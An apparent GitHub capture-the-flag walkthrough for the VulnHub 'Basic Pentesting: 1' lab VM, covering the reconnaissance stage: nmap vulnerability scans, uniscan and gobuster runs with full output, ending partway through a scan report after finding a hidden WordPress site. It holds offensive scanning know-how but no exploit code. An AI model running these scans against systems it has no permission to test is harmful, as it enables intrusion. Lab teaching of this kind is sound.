 <H1>Basic Pentesting: 1</H1>
<p></p>
<H2>What is it?</H2>
<p></p>
Basic Pentesting: 1 is a vulnerable VM that can be downloaded from <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/" rel="nofollow">VulnHub</a> so that you can host it locally. (To learn how to host this VM locally reference <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub" rel="nofollow">here</a>)
<p></p>
Basic Pentesting: 1 is an easy to intermediate box, it contains 1 flags (root flag) and has different ways of completing the box to achieve the same outcome. Doing this box you will cover the following areas:
<p></p>

```

<H5>Enumeration</H5>
- Network Scanning (Nmap)
<H5>Web Recon</H5>
- Recon (Nikto,gobuster,dirb,uniscan)
<br>
- Web directory traversal/file access
<H5>Breaking into a badly configured login page</H5>
- Setting up a dictionary file for username and password enumeration/cracking
<br>
- WordPress password cracking (wpscan,hydra)
<H5>Generating Backdoors</H5>
- Generate PHP Backdoor (Msfvenom)
<br>
- Using pre-configured php backdoor
<br>
- Upload and execute a backdoor
<H5>Catching the reverse conection on your host</H5>
- Reverse connection (Metasploit)
<H5>Identifying and cracking a hash</H5>
- Getting a hash and decrypting it
<H5>Getting a TTY shell</H5>
- Import python one-liner for proper TTY shell
<H5>Privilege Escalation</H5>
- One liner, linPEAS, linux-exploit-suggester-2
<br>
- binary, dirtycow

```


<p></p>
All flags have the following flag format:
<p></p>
key-1-of-3.txt
<br>
And when opened look like a random string of characters eg. ABCDENOASFINEAUINFAOPDSNFRUENPANFD
<p></p>
As stated before one flag is located on the website itself, one is located in the user folder and the final is located in the root folder.
<p></p>
I have written this write up as very beginner oriented with step-by-step walkthroughs to each stage of the process have a read you might learn something.
<p></p>
<H2>Walkthrough</H2>
<p></p>
<details>
    <summary></summary>
<p></p>
The first thing we need to do is identify the target VM on our network, (this is the mothod if you followed my guide for hosting the VM <a href="https://github.com/Shadow-Admins/Cyber_Club/tree/main/Starting_Point/VulnHub" rel="nofollow">here</a>)
<p></p>
In order to do that we need to identify what our Attacking VMs network adapter. By using the following command:
<p></p>

```
sudo ifconfig
```

<p></p>
Which outputs:
<p></p>

```
❯ sudo ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.191.129  netmask 255.255.255.0  broadcast 192.168.191.255
        inet6 fe80::11ec:b5d:f22:834f  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:df:18:d9  txqueuelen 1000  (Ethernet)
        RX packets 27524  bytes 26521537 (25.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 17283  bytes 2658776 (2.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.125.134  netmask 255.255.255.0  broadcast 192.168.125.255
        inet6 fe80::744b:c7cf:2382:75d3  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:df:18:e3  txqueuelen 1000  (Ethernet)
        RX packets 136  bytes 16130 (15.7 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 115  bytes 9578 (9.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 43920  bytes 8862323 (8.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 43920  bytes 8862323 (8.4 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

<p></p>
Here we can see the eth1 adapter, this is the adapter we added to the Host-only network. We will use the ip address given to this adapter to discover the Target VM on our network. We will use the following command:
<p></p>

```
nmap -e eth1 -T5 192.168.125.0/24
```

<p></p>
Looking at this command we used the <kbd>-e</kbd> flag to let nmap know which interface we want to use for the scan, the <kbd>-T5</kbd> flag tells nmap to do the fastest scan possible and the network we scanned against was the network we identified when we ran <kbd>ifconfig</kbd>.
<br>
This command returns:
<p></p>

```
❯ nmap -e eth1 -T5 192.168.125.0/24
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 12:40 AEST
Nmap scan report for 192.168.125.134
Host is up (0.048s latency).
Not shown: 999 closed ports
PORT    STATE SERVICE
111/tcp open  rpcbind

Nmap scan report for 192.168.125.135
Host is up (0.048s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 256 IP addresses (2 hosts up) scanned in 19.50 seconds
```

<p></p>
Looking through the results we can identify our own ip address <kbd>192.168.125.134</kbd> and one other ip <kbd>192.168.125.135</kbd> we can therefore determine that the second ip is our target VM. Time for further enumeration with nmap. This time the command will look like this:
<p></p>

```
sudo nmap -e eth1 -A -vvv --script vuln -oN nmap.txt 192.168.125.135
```

<p></p>
For this command, we use the <kbd>-e</kbd> flag to direct nmap to our desired network interface, <kbd>-A</kbd> to run all scripts, <kbd>-vvv</kbd> to give very verbose output, <kbd>--script vuln</kbd> to run the vulnerability script against the machine, this is extremely helpful and does a lot of enumeration for us which we can see in the output, <kbd>-oN nmap.txt</kbd> outputs the scan to a text file se we can refer to it later and finally the ip address we wish to scan.
This command outputs the following:
<p></p>

```
# Nmap 7.91 scan initiated Sun Jul 11 12:44:35 2021 as: nmap -e eth1 -A -vvv --script vuln -oN nmap.txt 192.168.125.135
Nmap scan report for 192.168.125.135
Host is up, received arp-response (0.0045s latency).
Scanned at 2021-07-11 12:44:45 AEST for 458s
Not shown: 997 closed ports
Reason: 997 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 ProFTPD 1.3.3c
|_sslv2-drown: 
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /secret/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
MAC Address: 00:0C:29:FB:93:05 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/11%OT=21%CT=1%CU=34941%PV=Y%DS=1%DC=D%G=Y%M=000C29%T
OS:M=60EA5CE7%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=109%TI=Z%CI=I%II=I
OS:%TS=8)OPS(O1=M5B4ST11NW7%O2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O
OS:5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6
OS:=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%
OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=40%CD=S)

Uptime guess: 161.288 days (since Sun Jan 31 06:58:16 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   4.52 ms 192.168.125.135

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 11 12:52:23 2021 -- 1 IP address (1 host up) scanned in 468.00 seconds
```

<p></p>
What can we pull from this scan? We can see there are 3 ports open (port 21 running ftp, port 22 running ssh and port 80 running http) We can also see that the vuln script has enumerated a directory for us '/secret/'.
<p></p>
After doing these kinds of boxes a few times you will know that port 22 is rarely a way into the box so for now we will concentrate on the two other ports (21 and 80). (I am going to go over the process of gaining access via port 80 as this is the more difficult way to gain entry, I will cover getting in through port 21 after)
<p></p>
Prior to looking at these individually I will continue enumeration using some different tools. The first will be uniscan (one of my favourite tools).
<p></p>
Uniscan is a tool that comes prepackaged with both Parrot and kali, it has a simple GUI and is easy to use, you can find it here on Parrot.
<p></p>
<div align="center">
<img src="https://github.com/Shadow-Admins/Cyber_Club/blob/5b31f29ec8f6c04504fa101d14a1eb574bd9e3e5/Starting_Point/VulnHub/BasicPentesting1/images/uniscanloc.png"><br>
</div>
<p></p>
To use uniscan you enter the ip address you wish to scan and then check the options you want to use, I used the following options:
<br>
- Check Directory
<br>
- Check Files
<br>
- Check /robots.txt
<br>
- Dynamic tests
<br>
- Static tests
<br>
- Web Fingerprint
<br>
- Server Fingerprint
<p></p>
Uniscan creates a .html report in /usr/share/uniscan/reports/IPADDRESS.html
<p></p>
You can view this report by running:
<p></p>

```
firefox /usr/share/uniscan/reports/192.168.125.135 &
```

<p></p>
The report information (which you can view by clicking the 'open log file' button) is:

```
####################################
# Uniscan project                  #
# http://uniscan.sourceforge.net/  #
####################################
V. 6.3


Scan date: 11-7-2021 13:30:3
===================================================================================================
| Domain: http://192.168.125.135/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 192.168.125.135
===================================================================================================
===================================================================================================
| Looking for Drupal plugins/modules
| 
| GET,HEAD,POST,OPTIONS
===================================================================================================
===================================================================================================
| WEB SERVICES
| 
===================================================================================================
| FAVICON.ICO
| 
===================================================================================================
| ERROR INFORMATION
| 
|  404 Not Found Not Found The requested URL /F&gt;]iB(j;4AIa{Nn[aR3 was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
|  404 Not Found Not Found The requested URL /L`8WUCxG0Z&gt;}b'4^^Qa6 was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
===================================================================================================
| TYPE ERROR
| 
===================================================================================================
| SERVER MOBILE
| 
===================================================================================================
| LANGUAGE
| 
===================================================================================================
| INTERESTING STRINGS IN HTML
| 
===================================================================================================
| WHOIS
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
| 
| 
| NetRange:       192.168.0.0 - 192.168.255.255
| 
| CIDR:           192.168.0.0/16
| 
| NetName:        PRIVATE-ADDRESS-CBLK-RFC1918-IANA-RESERVED
| 
| NetHandle:      NET-192-168-0-0-1
| 
| Parent:         NET192 (NET-192-0-0-0-0)
| 
| NetType:        IANA Special Use
| 
| OriginAS:       
| 
| Organization:   Internet Assigned Numbers Authority (IANA)
| 
| RegDate:        1994-03-15
| 
| Updated:        2013-08-30
| 
| Comment:        These addresses are in use by many millions of independently operated networks, which might be as small as a single computer connected to a home gateway, and are automatically configured in hundreds of millions of devices.  They are only intended for use within a private context  and traffic that needs to cross the Internet will need to use a different, unique address.
| 
| Comment:        
| 
| Comment:        These addresses can be used by anyone without any need to coordinate with IANA or an Internet registry.  The traffic from these addresses does not come from ICANN or IANA.  We are not the source of activity you may see on logs or in e-mail records.  Please refer to http://www.iana.org/abuse/answers
| 
| Comment:        
| 
| Comment:        These addresses were assigned by the IETF, the organization that develops Internet protocols, in the Best Current Practice document, RFC 1918 which can be found at:
| 
| Comment:        http://datatracker.ietf.org/doc/rfc1918
| 
| Ref:            https://rdap.arin.net/registry/ip/192.168.0.0
| 
| 
| 
| 
| 
| 
| 
| OrgName:        Internet Assigned Numbers Authority
| 
| OrgId:          IANA
| 
| Address:        12025 Waterfront Drive
| 
| Address:        Suite 300
| 
| City:           Los Angeles
| 
| StateProv:      CA
| 
| PostalCode:     90292
| 
| Country:        US
| 
| RegDate:        
| 
| Updated:        2012-08-31
| 
| Ref:            https://rdap.arin.net/registry/entity/IANA
| 
| 
| 
| 
| 
| OrgAbuseHandle: IANA-IP-ARIN
| 
| OrgAbuseName:   ICANN
| 
| OrgAbusePhone:  +1-310-301-5820 
| 
| OrgAbuseEmail:  abuse@iana.org
| 
| OrgAbuseRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| OrgTechHandle: IANA-IP-ARIN
| 
| OrgTechName:   ICANN
| 
| OrgTechPhone:  +1-310-301-5820 
| 
| OrgTechEmail:  abuse@iana.org
| 
| OrgTechRef:    https://rdap.arin.net/registry/entity/IANA-IP-ARIN
| 
| 
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
===================================================================================================
| BANNER GRABBING: 
===================================================================================================
===================================================================================================
| PING
| 
| PING 192.168.125.135 (192.168.125.135) 56(84) bytes of data.
| 64 bytes from 192.168.125.135: icmp_seq=1 ttl=64 time=0.399 ms
| 64 bytes from 192.168.125.135: icmp_seq=2 ttl=64 time=0.614 ms
| 64 bytes from 192.168.125.135: icmp_seq=3 ttl=64 time=0.519 ms
| 64 bytes from 192.168.125.135: icmp_seq=4 ttl=64 time=0.488 ms
| 
| --- 192.168.125.135 ping statistics ---
| 4 packets transmitted, 4 received, 0% packet loss, time 3079ms
| rtt min/avg/max/mdev = 0.399/0.505/0.614/0.076 ms
===================================================================================================
| TRACEROUTE
| 
| traceroute to 192.168.125.135 (192.168.125.135), 30 hops max, 60 byte packets
|  1  192.168.125.135 (192.168.125.135)  23.945 ms  24.235 ms  24.540 ms
===================================================================================================
| NSLOOKUP
| 
| Server:		192.168.191.2
| Address:	192.168.191.2#53
| 
| ** server can't find 135.125.168.192.in-addr.arpa: NXDOMAIN
===================================================================================================
| NMAP
| 
| Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-11 13:30 AEST
| NSE: Loaded 153 scripts for scanning.
| NSE: Script Pre-scanning.
| Initiating NSE at 13:30
| Completed NSE at 13:30, 0.00s elapsed
| Initiating NSE at 13:30
| Completed NSE at 13:30, 0.00s elapsed
| Initiating NSE at 13:30
| Completed NSE at 13:30, 0.00s elapsed
| Initiating ARP Ping Scan at 13:30
| Scanning 192.168.125.135 [1 port]
| Completed ARP Ping Scan at 13:30, 0.06s elapsed (1 total hosts)
| Initiating Parallel DNS resolution of 1 host. at 13:30
| Completed Parallel DNS resolution of 1 host. at 13:30, 6.51s elapsed
| Initiating SYN Stealth Scan at 13:30
| Scanning 192.168.125.135 [1000 ports]
| Discovered open port 21/tcp on 192.168.125.135
| Discovered open port 80/tcp on 192.168.125.135
| Discovered open port 22/tcp on 192.168.125.135
| Completed SYN Stealth Scan at 13:30, 1.24s elapsed (1000 total ports)
| Initiating Service scan at 13:30
| Scanning 3 services on 192.168.125.135
| Completed Service scan at 13:30, 10.02s elapsed (3 services on 1 host)
| Initiating OS detection (try #1) against 192.168.125.135
| NSE: Script scanning 192.168.125.135.
| Initiating NSE at 13:30
| Completed NSE at 13:30, 10.05s elapsed
| Initiating NSE at 13:30
| Completed NSE at 13:31, 28.07s elapsed
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Nmap scan report for 192.168.125.135
| Host is up (0.0070s latency).
| Not shown: 997 closed ports
| PORT   STATE SERVICE VERSION
| 21/tcp open  ftp     ProFTPD 1.3.3c
| 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| | ssh-hostkey: 
| |   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
| |   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
| |_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
| 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| | http-methods: 
| |_  Supported Methods: GET HEAD POST OPTIONS
| |_http-server-header: Apache/2.4.18 (Ubuntu)
| |_http-title: Site doesn't have a title (text/html).
| MAC Address: 00:0C:29:FB:93:05 (VMware)
| Device type: general purpose
| Running: Linux 3.X|4.X
| OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
| OS details: Linux 3.2 - 4.9
| Uptime guess: 161.962 days (since Sat Jan 30 15:25:22 2021)
| Network Distance: 1 hop
| TCP Sequence Prediction: Difficulty=262 (Good luck!)
| IP ID Sequence Generation: All zeros
| Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
| 
| TRACEROUTE
| HOP RTT     ADDRESS
| 1   6.97 ms 192.168.125.135
| 
| NSE: Script Post-scanning.
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Initiating NSE at 13:31
| Completed NSE at 13:31, 0.00s elapsed
| Read data files from: /usr/bin/../share/nmap
| OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
| Nmap done: 1 IP address (1 host up) scanned in 57.92 seconds
|            Raw packets sent: 1023 (45.806KB) | Rcvd: 1015 (41.290KB)
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/index.html
===================================================================================================
|
| Check robots.txt:
|
| Check sitemap.xml:
===================================================================================================
|
| Crawler Started:
| Plugin name: FCKeditor upload test v.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Upload Form Detect v.1.1 Loaded.
| Plugin name: Code Disclosure v.1.1 Loaded.
| Plugin name: E-mail Detection v.1.1 Loaded.
| Plugin name: External Host Detect v.1.2 Loaded.
| Plugin name: phpinfo() Disclosure v.1 Loaded.
| Plugin name: Web Backdoor Disclosure v.1.1 Loaded.
| [+] Crawling finished, 7 URL's found!
|
| FCKeditor File Upload:
|
| Timthumb:
|
| File Upload Forms:
|
| Source Code Disclosure:
|
| E-mails:
|
| External hosts:
| [+] External Host Found: http://vtcsec
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://wordpress.org
|
| PHPinfo() Disclosure:
|
| Web Backdoors:
|
| Ignored Files: 
===================================================================================================
| Dynamic tests:
| Plugin name: Learning New Directories v.1.2 Loaded.
| Plugin name: FCKedior tests v.1.1 Loaded.
| Plugin name: Timthumb <= 1.32 vulnerability v.1 Loaded.
| Plugin name: Find Backup Files v.1.2 Loaded.
| Plugin name: Blind SQL-injection tests v.1.3 Loaded.
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: PHP CGI Argument Injection v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.2 Loaded.
| Plugin name: SQL-injection tests v.1.2 Loaded.
| Plugin name: Cross-Site Scripting tests v.1.2 Loaded.
| Plugin name: Web Shell Finder v.1.3 Loaded.
| [+] 0 New directories added
|                                                                                                   
|                                                                                                   
| FCKeditor tests:
|                                                                                                   
|                                                                                                   
| Timthumb < 1.33 vulnerability:
|                                                                                                   
|                                                                                                   
| Backup Files:
|                                                                                                   
|                                                                                                   
| Blind SQL Injection:
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| PHP CGI Argument Injection:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
|                                                                                                   
|                                                                                                   
| SQL Injection:
|                                                                                                   
|                                                                                                   
| Cross-Site Scripting (XSS):
|                                                                                                   
|                                                                                                   
| Web Shell Finder:
===================================================================================================
| Static tests:
| Plugin name: Local File Include tests v.1.1 Loaded.
| Plugin name: Remote Command Execution tests v.1.1 Loaded.
| Plugin name: Remote File Include tests v.1.1 Loaded.
|                                                                                                   
|                                                                                                   
| Local File Include:
|                                                                                                   
|                                                                                                   
| Remote Command Execution:
|                                                                                                   
|                                                                                                   
| Remote File Include:
===================================================================================================
Scan end date: 11-7-2021 13:31:41



HTML report saved in: report/192.168.125.135.html
```

<p></p>
This provided us with a bit more information. It has enumerated a file for us and found 3 external hosts, it's interesting there is a reference to wordpress.
<p></p>

```
===================================================================================================
|
| Directory check:
| [+] CODE: 200 URL: http://192.168.125.135/secret/
===================================================================================================
|                                                                                                   
| File check:
| [+] CODE: 200 URL: http://192.168.125.135/index.html
===================================================================================================
|
| External hosts:
| [+] External Host Found: http://vtcsec
| [+] External Host Found: http://gmpg.org
| [+] External Host Found: https://wordpress.org
```

<p></p>
We will save this information for later, lets continue enumerating.
<p></p>
We will now use gobuster (gobuster -h displays the helpfile) to see if we can pick up anymore directories or files belonging to this website. The command we will use is:
<p></p>

```
gobuster dir -u http://192.168.125.135 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
```

<p></p>
In this command u can see we use the <kbd>dir</kbd> command followed by the <kbd>-u</kbd> command to point gobuster at the url, we then use the <kbd>-w</kbd> command to point gobuster to our desired wordlist. Here you can see I have used the raft-large-files.txt wordlist from <a href="https://github.com/danielmiessler/SecLists" rel="nofollow">SecLists</a>. (I strongly recommend downloading this git it contains tons of wordlists that can be used for multiple things)
<p></p>
This command outputs this:
<p></p>

```
❯ gobuster dir -u http://192.168.125.135 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.135
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/11 13:44:28 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 177]
/.htaccess            (Status: 403) [Size: 299]
/.                    (Status: 200) [Size: 177]
/.html                (Status: 403) [Size: 295]
/.php                 (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 299]
/.htm                 (Status: 403) [Size: 294]
/.htpasswds           (Status: 403) [Size: 300]
/.htgroup             (Status: 403) [Size: 298]
/wp-forum.phps        (Status: 403) [Size: 303]
/.htaccess.bak        (Status: 403) [Size: 303]
/.htuser              (Status: 403) [Size: 297]
/.htc                 (Status: 403) [Size: 294]
/.ht                  (Status: 403) [Size: 293]
/.htaccess.old        (Status: 403) [Size: 303]
/.htacess             (Status: 403) [Size: 298]
Progress: 25258 / 37043 (68.19%)              [ERROR] 2021/07/11 13:45:10 [!] parse "http://192.168.125.135/directory\t\te.g.": net/url: invalid control character in URL
                                               
===============================================================
2021/07/11 13:45:36 Finished
===============================================================
```

<p></p>
Interesting another reference to wordpress, lets re-run gobuster but include the '/secret/' directory in the url. The command looks like this:
<p></p>

```
gobuster dir -u http://192.168.125.135/secret/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
```

<p></p>
Which outputs:
<p></p>

```
❯ gobuster dir -u http://192.168.125.135/secret/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.135/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-files.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/11 13:47:15 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 306]
/license.txt          (Status: 200) [Size: 19935]
/readme.html          (Status: 200) [Size: 7413] 
/wp-login.php         (Status: 200) [Size: 2261] 
/index.php            (Status: 301) [Size: 0] [--> http://192.168.125.135/secret/]
/wp-mail.php          (Status: 403) [Size: 2768]                                  
/wp-cron.php          (Status: 200) [Size: 0]                                     
/wp-settings.php      (Status: 500) [Size: 0]                                     
/wp-config.php        (Status: 200) [Size: 0]                                     
/wp-blog-header.php   (Status: 200) [Size: 0]                                     
/.html                (Status: 403) [Size: 302]                                   
/wp-links-opml.php    (Status: 200) [Size: 222]                                   
/.                    (Status: 301) [Size: 0] [--> http://192.168.125.135/secret/]
/wp-trackback.php     (Status: 200) [Size: 135]                                   
/xmlrpc.php           (Status: 405) [Size: 42]                                    
/.php                 (Status: 403) [Size: 301]                                   
/wp-load.php          (Status: 200) [Size: 0]                                     
/wp-signup.php        (Status: 302) [Size: 0] [--> http://vtcsec/secret/wp-login.php?action=register]
/.htpasswd            (Status: 403) [Size: 306]                                                      
/wp-activate.php      (Status: 302) [Size: 0] [--> http://vtcsec/secret/wp-login.php?action=register]
/.htm                 (Status: 403) [Size: 301]                                                      
/.htpasswds           (Status: 403) [Size: 307]                                                      
/.htgroup             (Status: 403) [Size: 305]                                                      
/wp-forum.phps        (Status: 403) [Size: 310]                                                      
/.htaccess.bak        (Status: 403) [Size: 310]                                                      
/.htuser              (Status: 403) [Size: 304]                                                      
/.ht                  (Status: 403) [Size: 300]                                                      
/.htc                 (Status: 403) [Size: 301]                                                      
/.htaccess.old        (Status: 403) [Size: 310]                                                      
/.htacess             (Status: 403) [Size: 305]                                                      
Progress: 25138 / 37043 (67.86%)                                                                    [ERROR] 2021/07/11 13:47:56 [!] parse "http://192.168.125.135/secret/directory\t\te.g.": net/url: invalid control character in URL
                                                                                                     
===============================================================
2021/07/11 13:48:26 Finished
===============================================================
```

<p></p>
Jackpot, we found the wordpress motherload we will definitely be targeting this as our way into the machine. If we re-run uniscan in the same way we re-ran gobuster we find some more information. Bellow is the output from adding '/secret/' to the end of the ip in uniscan.
<p></p>

```
####################################
# Uniscan project                  #
# http://uniscan.sourceforge.net/  #
####################################
V. 6.3


Scan date: 11-7-2021 13:52:7
===================================================================================================
| Domain: http://192.168.125.135/secret/
| Server: Apache/2.4.18 (Ubuntu)
| IP: 192.168.125.135
===================================================================================================
===================================================================================================
| Looking for Drupal plugins/modules
| 
| GET,HEAD,POST,OPTIONS
===================================================================================================
===================================================================================================
| WEB SERVICES
| 
===================================================================================================
| FAVICON.ICO
| 
===================================================================================================
| ERROR INFORMATION
| 
|  404 Not Found Not Found The requested URL /vcz16&quot;=ci$ee:Qj^}Jl was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
|  404 Not Found Not Found The requested URL /IIdO6.J$y4|!:fT|M;b&gt; was not found on this server. Apache/2.4.18 (Ubuntu) Server at 192.168.125.135 Port 80 
===================================================================================================
| TYPE ERROR
| 
===================================================================================================
| SERVER MOBILE
| 
===================================================================================================
| LANGUAGE
| 
| lang="en-US"
===================================================================================================
| INTERESTING STRINGS IN HTML
| 
| a href="http://vtcsec/secret/wp-login.php">Log in
===================================================================================================
| WHOIS
| 
| 
| 
| #
| 
| # ARIN WHOIS data and services are subject to the Terms of Use
| 
| # available at: https://www.arin.net/resources/registry/whois/tou/
| 
| #
| 
| # If you see inaccuracies in the results, please report at
| 
| # https://www.arin.net/resources/registry/whois/inaccuracy_reporting/
| 
| #
| 
| # Copyright 1997-2021, American Registry for Internet Numbers, Ltd.
| 
| #
| 
| 
| 
| 
| 
| NetRange:       192.168.0.0 - 192.168.255.255
| 
| CIDR:           192.168.0.0/16
| 
| NetName:        PRIVATE-ADDRESS-CBLK-RFC1918-IANA-RESERVED
| 
| NetHandle:      NET-192-168-0-0-1
| 
| Parent:         NET192 (NET-192-0-0-0-0)
| 
| NetType:        IANA Special Use
| 
| OriginAS:       
| 
| Organization:   Internet Assigned Numbers Authority (IANA)
| 
| RegDate:        1994-03-15
| 
| Updated:        2013-08-30
| 
| Comment:        These addresses are in use by many millions of independently operated networks, which might be as small as a single computer connected to a home gateway, and are automatically configured in hundreds of millions of devices.  They are only intended for use within a private context  and traffic that needs to cross the Internet will need to use a different, unique address.
